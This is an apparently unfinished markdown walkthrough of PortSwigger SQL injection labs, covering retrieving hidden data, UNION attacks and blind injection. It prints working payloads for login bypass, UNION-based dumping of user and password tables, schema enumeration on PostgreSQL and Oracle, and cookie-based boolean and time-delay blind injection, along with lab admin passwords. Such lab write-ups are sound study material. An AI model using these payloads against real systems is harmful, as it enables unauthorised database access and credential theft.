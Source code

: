 # SQL Injection

 - [Retrieving hidden data](#retrieving-hidden-data)
 - [UNION attacks](#union-attacks)
 - [Blind SQL injection](#blind-sql-injection)

Details at [here](https://portswigger.net/web-security/sql-injection)

Type of SQL injection in example

- [Retrieving hidden data](#retrieving-hidden-data)
- [UNION attacks](#union-attacks)
- [Blind SQL injection](#blind-sql-injection)

---

## Retrieving hidden data

Modify an SQL query to return additional results

[Lab 1](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

Description of this lab: the query of 1 category `Gifts`

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

And sample URL query: `https://example.com/filter?category=Gifts`

Goal: display details of all products in any category, both *released and unreleased*

`SELECT * FROM products WHERE category = '' or '1'='1' AND released = 1`

We just only adjust in `category=` and put into `''`, so the final payload:
`' or '1'='1` or `https://example.com/filter?category=%27%20or%20%271%27or%271` 

[Lab 2](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

Description of this lab: inject in login page as username: administrator

So we need to modify the password, and check the password with the previous payload: `' or '1'='1`, and it worked

## UNION attacks

Detail found at [here](https://portswigger.net/web-security/sql-injection/union-attacks)

See cheatsheet [here](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[Lab 3](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Description of this lab: vulnerability in the product category filter, use a UNION attack to retrieve data from other tables

Firstly, we need to identify the number of columns in the table, and use payload: `' ORDER BY <number-of-column> --` to check, after we use `' ORDER BY 4 --`, we got the error `Internal Server Error` so the column is 3.

Finally, we use `' UNION SELECT NULL, NULL, NULL--` to make a union attack at `/filter?category=` then solved this challenge.

[Lab 4](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

Description of this lab: You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. After that, alter NULL to random text on the homepage, for example: 'qG26iL'

Do as same as the previous one with `' UNION SELECT NULL, NULL, NULL--`. After trying, the final payload is `' UNION SELECT NULL, 'qG26iL', NULL--`

[Lab 5](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

Description of this lab: The database contains a different table called users, with columns called username and password

In this lab, there are 2 columns in this table

Do the same as the previous one with `' UNION SELECT NULL, NULL--`. Follow the description, and change NULL to username and password. Moreover, we need access to a table named `users`, so the payload is: `' UNION SELECT username, password FROM users--`, then we got all username and password.

Login with the password of user `administrator`: nq3glruptcrilo0yscf6 and solved the lab.  

[Lab 6](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

This lab has the same description as the previous one but we need to retrieve multiple values in a single column. Furthermore, in this lab, we can use only the second column.

Look at the cheatsheet, we can use the string concatenation technique. After trying, we found this lab use `||` for concatenate string. The final payload is `' UNION SELECT NULL, username||':'||password FROM users--` to get all usernames and passwords.

Login with the password of user `administrator`: 532codf0er823llefy7x and solved the lab. 

[Lab 7](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Description of this lab: display the database version string of Oracle

In this lab, the available number of columns is 2. Look at the cheatsheet, try with: `SELECT banner FROM v$version` and the final payload is: `' UNION SELECT banner, NULL FROM v$version--`, then solved the lab.

[Lab 8](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

This lab has the same description as the previous one, but for MySQL and Microsoft.

The final payload is `' UNION SELECT @@version, NULL#`, we will change `v$version` to `@@version`, `--` to `#`, then solved the lab.


[Lab 9](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Description of this lab: You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

This lab has 2 available cloumns, we need to determine the name of table first. However, determine the version of database. After trying, `' UNION SELECT version(), NULL--` worked and result is `PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`

Check the cheatsheet, found database contents with PostgreSQL using `' UNION SELECT table_name, NULL FROM information_schema.tables--`. So there are a lot of tables, find the column of table `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ahngdj'--`, the result is colunms names: username_ivoiag and password_vxgmam

The final payload is `' UNION SELECT username_ivoiag, password_vxgmam FROM users_ahngdj--`, the password of administrator is l9jw2he0g1jr5zzndr3o. Login with this password, then solved the lab.

[Lab 10](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

This lab has the same description as the previous one, but for oracle.

Get all table name in database with `' UNION SELECT table_name, NULL FROM all_tables--`, and the name of table which we need to access is USERS_NOFLTA then use `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_NOFLTA'--` to get name of password and username column: PASSWORD_EVVZCC & USERNAME_ETTQUM.

The final payload is: `' UNION SELECT USERNAME_ETTQUM, PASSWORD_EVVZCC FROM USERS_NOFLTA--` and get password of administrator is qhwrw9aos6k2p2uodezp, login and solved the lab.

## Blind SQL injection 

[Lab 11](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Description of this lab: The results of the SQL query are not returned, and no error messages are displayed. But the application includes a **Welcome back** message in the page if the query returns any rows. The application uses a tracking **cookie** for analytics, and performs an SQL query containing the value of the submitted cookie.   

The database contains a different table called **users**, with columns called **username and password**, find out the password of the administrator user.

So we need modify cookie, when we use burpsuite, and open page, we will get cookie like this: `Cookie: TrackingId=78FpD4ERhK86IMIp; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`. 

If we modify session, the website will be loss data of this session, so we will modify TrackingID `Cookie: TrackingId=78FpD4ERhK86IMIp+'+or+1=1--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`, and return page including 'Welcome back', so it is right direction. Only thing we can do is making condition. At the first, determine the length of password `Cookie: TrackingId=78FpD4ERhK86IMIp+'or+(SELECT+LENGTH(password)+FROM+users+WHERE+username='administrator')=20--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`

Note: using burp intruder for bruting force value in condition 

Nextly, using brute force to guess 20-length password

[Lab 12](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

[Lab 13](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

Description of this lab: exploit the SQL injection vulnerability to cause a 10 second delay.

Using payload similar `Cookie: TrackingId=nTjOlcnGoesLH7fd+'or+pg_sleep(10)--; session=8BYemkFDFxWMOkX21X7uPWmJ0P1fAYRl` to sleep in 10 second, then solved the lab.

[Lab 14](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)








